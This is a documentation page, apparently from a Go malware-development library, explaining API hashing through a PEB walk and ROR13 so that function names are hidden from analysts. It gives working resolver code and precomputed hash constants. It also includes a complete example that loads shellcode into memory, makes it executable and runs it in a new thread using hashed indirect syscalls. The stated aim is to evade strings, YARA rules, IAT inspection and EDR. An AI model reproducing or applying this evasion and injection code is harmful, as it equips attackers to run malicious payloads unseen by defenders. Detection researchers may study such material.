

# API Hashing (PEB Walk + ROR13)

[<- Back to Syscalls Overview](README.md)

**MITRE ATT&CK:** [T1106 - Native API](https://attack.mitre.org/techniques/T1106/)
**D3FEND:** [D3-FCR - Function Call Restriction](https://d3fend.mitre.org/technique/d3f:FunctionCallRestriction/)

---

## For Beginners

When your program calls `VirtualAlloc`, the string `"VirtualAlloc"` appears in the binary. Any analyst running `strings` on your executable can see exactly which dangerous APIs you use.

**Instead of calling someone by name (which gets overheard), you use a coded number.** API hashing converts function names like `"NtAllocateVirtualMemory"` into numeric hashes like `0xD33BCABD`. Your binary only contains these numbers -- no readable strings. At runtime, the code walks the Process Environment Block (PEB) to find loaded DLLs and their exports, hashing each export name until it finds a match.

---

## How It Works



### PEB Walk Details

The PEB (Process Environment Block) contains a list of all loaded DLLs. On x64 Windows:

1. **TEB** (Thread Environment Block) is at `GS:0x30`
2. **PEB** is at `TEB+0x60`
3. **PEB_LDR_DATA** is at `PEB+0x18`
4. **InLoadOrderModuleList** starts at `LDR+0x10`

Each entry in the list is an `LDR_DATA_TABLE_ENTRY` containing:
- `+0x30`: DllBase (the module's base address)
- `+0x58`: BaseDllName as UNICODE_STRING (Length, MaxLength, Buffer)

### ROR13 Hashing

ROR13 (Rotate Right by 13 bits) is the de facto standard for shellcode API hashing:

```
For each character c in the name:
    hash = (hash >> 13) | (hash << 19)   // rotate right 13 bits
    hash = hash + c                       // add character value
```

Two variants exist in maldev:
- **ROR13** (`hash.ROR13`): ASCII, no null terminator -- used for export names
- **ROR13Module** (`hash.ROR13Module`): UTF-16LE wide chars + null terminator -- used for PEB module names

### PE Export Resolution

Once the module base is found, the code parses the PE export directory:

1. Read `e_lfanew` at offset `0x3C` to find the PE header
2. Navigate to `DataDirectory[0]` (export directory) at PE header `+24+112`
3. Walk `AddressOfNames`, hash each name, compare with target hash
4. On match, read the ordinal from `AddressOfNameOrdinals` and the RVA from `AddressOfFunctions`

---

## Usage

### ResolveByHash: Find a Function Address

```go
import "github.com/oioio-space/maldev/win/api"

// Resolve LoadLibraryA in KERNEL32.DLL -- no strings in binary
addr, err := api.ResolveByHash(api.HashKernel32, api.HashLoadLibraryA)
if err != nil {
    log.Fatal(err)
}
// addr is now the function pointer for LoadLibraryA
```

### CallByHash: Execute a Syscall by Hash

```go
import (
    "github.com/oioio-space/maldev/win/api"
    wsyscall "github.com/oioio-space/maldev/win/syscall"
)

caller := wsyscall.New(wsyscall.MethodIndirect, wsyscall.NewHashGate())
defer caller.Close()

// NtAllocateVirtualMemory via hash -- zero plaintext function names
ret, err := caller.CallByHash(api.HashNtAllocateVirtualMemory,
    uintptr(0xFFFFFFFFFFFFFFFF),
    uintptr(unsafe.Pointer(&baseAddr)),
    0,
    uintptr(unsafe.Pointer(&regionSize)),
    windows.MEM_COMMIT|windows.MEM_RESERVE,
    windows.PAGE_READWRITE,
)
```

### HashGateResolver: SSN Resolution by Hash

```go
import wsyscall "github.com/oioio-space/maldev/win/syscall"

// HashGate resolves SSNs via PEB walk -- no LazyProc.Find() calls
resolver := wsyscall.NewHashGate()
ssn, err := resolver.Resolve("NtCreateThreadEx")
// ssn is the syscall service number (e.g., 0xC1)
```

### Pre-Computed Hash Constants

```go
// Module hashes (ROR13Module of BaseDllName in PEB)
api.HashKernel32  // 0x50BB715E  "KERNEL32.DLL"
api.HashNtdll     // 0x411677B7  "ntdll.dll"
api.HashAdvapi32  // 0x9CB9105F  "ADVAPI32.dll"
api.HashUser32    // 0x51319D6F  "USER32.dll"
api.HashShell32   // 0x18D72CAC  "SHELL32.dll"

// Function hashes (ROR13 of ASCII export name)
api.HashLoadLibraryA            // 0xEC0E4E8E
api.HashGetProcAddress          // 0x7C0DFCAA
api.HashVirtualAlloc            // 0x91AFCA54
api.HashNtAllocateVirtualMemory // 0xD33BCABD
api.HashNtProtectVirtualMemory  // 0x8C394D89
api.HashNtCreateThreadEx        // 0x4D1DEB74
api.HashNtWriteVirtualMemory    // 0xC5108CC2
```

---

## Combined Example: String-Free Injection

```go
package main

import (
    "context"
    "unsafe"

    "golang.org/x/sys/windows"

    "github.com/oioio-space/maldev/crypto"
    "github.com/oioio-space/maldev/win/api"
    wsyscall "github.com/oioio-space/maldev/win/syscall"
)

func main() {
    // All function resolution via hashes -- no "NtAllocateVirtualMemory" string in binary
    caller := wsyscall.New(wsyscall.MethodIndirect, wsyscall.NewHashGate())
    defer caller.Close()

    // Decrypt shellcode (key would be derived at runtime in production)
    key, _ := crypto.NewAESKey()
    shellcode := []byte{/* ... */}
    encrypted, _ := crypto.EncryptAESGCM(key, shellcode)
    decrypted, _ := crypto.DecryptAESGCM(key, encrypted)

    // Allocate memory via hash
    var baseAddr uintptr
    regionSize := uintptr(len(decrypted))
    caller.CallByHash(api.HashNtAllocateVirtualMemory,
        uintptr(0xFFFFFFFFFFFFFFFF),
        uintptr(unsafe.Pointer(&baseAddr)),
        0,
        uintptr(unsafe.Pointer(&regionSize)),
        windows.MEM_COMMIT|windows.MEM_RESERVE,
        windows.PAGE_READWRITE,
    )

    // Write shellcode via hash
    var bytesWritten uintptr
    caller.CallByHash(api.HashNtWriteVirtualMemory,
        uintptr(0xFFFFFFFFFFFFFFFF),
        baseAddr,
        uintptr(unsafe.Pointer(&decrypted[0])),
        uintptr(len(decrypted)),
        uintptr(unsafe.Pointer(&bytesWritten)),
    )

    // Change protection via hash
    var oldProtect uintptr
    caller.CallByHash(api.HashNtProtectVirtualMemory,
        uintptr(0xFFFFFFFFFFFFFFFF),
        uintptr(unsafe.Pointer(&baseAddr)),
        uintptr(unsafe.Pointer(&regionSize)),
        windows.PAGE_EXECUTE_READ,
        uintptr(unsafe.Pointer(&oldProtect)),
    )

    // Execute via hash
    var threadHandle uintptr
    caller.CallByHash(api.HashNtCreateThreadEx,
        uintptr(unsafe.Pointer(&threadHandle)),
        0x1FFFFF, 0, uintptr(0xFFFFFFFFFFFFFFFF),
        baseAddr, 0, 0, 0, 0, 0, 0,
    )

    windows.WaitForSingleObject(windows.Handle(threadHandle), windows.INFINITE)
}
```

---

## Advantages & Limitations

### Advantages

- **No plaintext strings**: `strings` and YARA rules targeting API names find nothing
- **No IAT entries**: Functions resolved at runtime are invisible in the Import Address Table
- **Composable**: HashGate works as an SSNResolver in the Chain pipeline
- **Lazy init**: ntdll base address resolved once via `sync.Once`, cached for all subsequent calls

### Limitations

- **ROR13 collisions**: Theoretically possible (32-bit hash space), though none exist for common NT function names
- **PEB walk detectable**: ETW providers and some EDRs monitor PEB traversal patterns
- **Hash constants are signatures**: Known hash values (e.g., `0xD33BCABD` for NtAllocateVirtualMemory) become YARA targets themselves
- **Requires loaded modules**: Can only resolve functions from DLLs already in the PEB -- cannot load new DLLs by hash alone

---

## Compared to Other Implementations

| Feature | maldev (win/api + win/syscall) | ShellcodeRDI | Donut | Cobalt Strike |
|---------|-------------------------------|-------------|-------|---------------|
| Hash algorithm | ROR13 | CRC32 | Murmurhash3 | DJB2 |
| Module resolution | PEB walk | PEB walk | PEB walk | PEB walk |
| SSN extraction | Yes (HashGate) | No | No | No |
| Pre-computed constants | Yes (api.HashXxx) | No | Internal | Internal |
| Go native | Yes | C | C | Java/C |
| Indirect syscall integration | Yes | No | No | No |

---

## API Reference

### win/api

```go
// ResolveByHash resolves a function address by module + function ROR13 hashes.
func ResolveByHash(moduleHash, funcHash uint32) (uintptr, error)

// ModuleByHash finds a loaded module's base address via PEB walk.
func ModuleByHash(hash uint32) (uintptr, error)

// ExportByHash finds a function address in a loaded PE by export name hash.
func ExportByHash(moduleBase uintptr, funcHash uint32) (uintptr, error)
```

### win/syscall

```go
// CallByHash executes a syscall using a pre-computed ROR13 hash.
func (c *Caller) CallByHash(funcHash uint32, args ...uintptr) (uintptr, error)

// NewHashGate creates a resolver that uses PEB walk + ROR13 hashing.
func NewHashGate() *HashGateResolver
```

### hash

```go
// ROR13 computes the ROR13 hash of an ASCII string (no null terminator).
func ROR13(name string) uint32

// ROR13Module computes the ROR13 hash of a UTF-16LE module name (with null terminator).
func ROR13Module(name string) uint32
```
